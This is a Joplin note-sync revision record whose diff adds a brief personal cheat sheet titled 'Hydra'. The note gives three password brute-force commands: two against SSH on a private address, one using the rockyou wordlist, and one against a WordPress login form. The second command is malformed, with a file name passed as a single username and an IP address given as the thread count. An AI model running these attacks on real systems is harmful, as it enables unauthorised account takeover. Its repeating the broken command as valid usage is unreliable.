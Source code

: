 id: 2c533e2f7898422a9adc01393de7665a
parent_id: 
item_type: 1
item_id: 99193b9e6c9546be8cfc6c4907dd986e
item_updated_time: 1646016694231
title_diff: "[{\"diffs\":[[1,\"1d20657486734fde8bca9492b395414f\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":32}]"
body_diff: "[{\"diffs\":[[1,\"Hydra\\\r\\\n\\\r\\\n- hydra -l user -P pass.txt -t 10 172.21.0.0 ssh -s 22\\\r\\\n\\\r\\\n- hydra -l users.txt -p /usr/share/wordlists/rockyou.txt -t 172.21.0.0 ssh -s 22\\\r\\\n\\\r\\\n- hydra -l admin -P ./passwordlist.txt $ip -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'\\\r\\\n\\\r\\\nid: 1d20657486734fde8bca9492b395414f\\\r\\\nparent_id: c231c98d269d4d4298fe65dd0f6a4547\\\r\\\ncreated_time: 2019-11-26T19:29:18.602Z\\\r\\\nupdated_time: 2020-05-06T03:06:27.897Z\\\r\\\nis_conflict: 0\\\r\\\nlatitude: 0.00000000\\\r\\\nlongitude: 0.00000000\\\r\\\naltitude: 0.0000\\\r\\\nauthor: \\\r\\\nsource_url: \\\r\\\nis_todo: 0\\\r\\\ntodo_due: 0\\\r\\\ntodo_completed: 0\\\r\\\nsource: joplin-desktop\\\r\\\nsource_application: net.cozic.joplin-desktop\\\r\\\napplication_data: \\\r\\\norder: 0\\\r\\\nuser_created_time: 2019-11-26T19:29:18.602Z\\\r\\\nuser_updated_time: 2020-05-06T03:06:27.897Z\\\r\\\nencryption_cipher_text: \\\r\\\nencryption_applied: 0\\\r\\\nmarkup_language: 1\\\r\\\nis_shared: 0\\\r\\\nshare_id: \\\r\\\nconflict_original_id: \\\r\\\nmaster_key_id: \\\r\\\ntype_: 1\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":938}]"
metadata_diff: {"new":{"id":"99193b9e6c9546be8cfc6c4907dd986e","parent_id":"fb73d1d872ce4ee6ab184091f1e4c67b","latitude":"0.00000000","longitude":"0.00000000","altitude":"0.0000","author":"","source_url":"","is_todo":0,"todo_due":0,"todo_completed":0,"source":"joplin-desktop","source_application":"net.cozic.joplin-desktop","application_data":"","order":1646016694219,"markup_language":1,"is_shared":0,"share_id":"","conflict_original_id":"","master_key_id":""},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-02-28T02:54:21.999Z
created_time: 2022-02-28T02:54:21.999Z
type_: 13